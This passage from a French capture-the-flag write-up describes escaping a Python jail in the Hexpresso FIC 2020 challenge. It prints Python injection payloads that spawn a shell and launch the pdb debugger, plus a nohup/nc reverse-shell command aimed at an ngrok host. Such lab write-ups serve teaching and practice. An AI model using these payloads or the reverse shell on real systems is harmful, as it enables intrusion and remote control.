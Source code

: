 Le shell timeout au bout de quelque seconde en permanence, ce qui est très embêtant pour faire son énumération. Grâce à la commande `nohup` sous Linux, il est possible de créer des process indépendamment de l'utilisateur. C'est à dire que si je fais un reverse shell, il sera accessible même si je timeout.

Avec `ngrok`, pas besoin de VPS pour récupérer un shell. L'article de TheLaluka en parle bien: https://thinkloveshare.com/en/hacking/ngrok_your_dockersploit/

Le but de `ngrok` est d'ouvrir une socket TCP sur internet bindé à un ncat en écoute.

![](/lib/images/writeups/2020_hexpresso_fic/upload_41177383c501c919d6e6eab4078320f5.png)

![](/lib/images/writeups/2020_hexpresso_fic/upload_fe3eecc09702ffd2afc182484217a8aa.png)

> `'+__import__("pty").spawn("sh")+'`
> `nohup nc 0.tcp.ngrok.io 16368 -e /bin/sh >/dev/null 2>&1 &`

### V.3. Analyse de la pyjail

La fonction `get_flag()` de la pyjail est vraiment inréressante:

```python
def get_flag():
    flag = os.environ.get("FLAG", "FLAG{LOCAL_FLAG}")
    os.environ.update({"FLAG": ""})
    return flag
```

1. `flag = os.environ.get("FLAG", "FLAG{LOCAL_FLAG}")` : Récupère la valeur de la variable d'environnement "FLAG" et la met dans la variable "flag";
2. `os.environ.update({"FLAG": ""})` : Va clear la variable d'environnement "FLAG";
3. `return flag` : Retourne la valeur de la fonction flag.

Donc ça veut dire que le flag présent dans la variable "flag" est toujours en mémoire lors de la première exécution. 

```python
def main():
    flag = get_flag()

    if flag == get_input():
```

Quand le script attend une input, le flag est présent en mémoire. 

### V.4. Debug all the things

En cherchant différents modules, on tombe sur le module `pdb` de python qui est le debugger python. Grâce à l'injection de python dans le programme, il est possible de debug directement le script:

![](/lib/images/writeups/2020_hexpresso_fic/upload_89f95b5a0b99c3eb8235e0f69aa71a5b.png)

> `'+print(__import__("pdb").set_trace())+'`

* `n` : Instruction suivante; 
* `l` : Affiche les sources dans la contexte actuel;
* `p var` : Affiche le contenu de la variable "var".
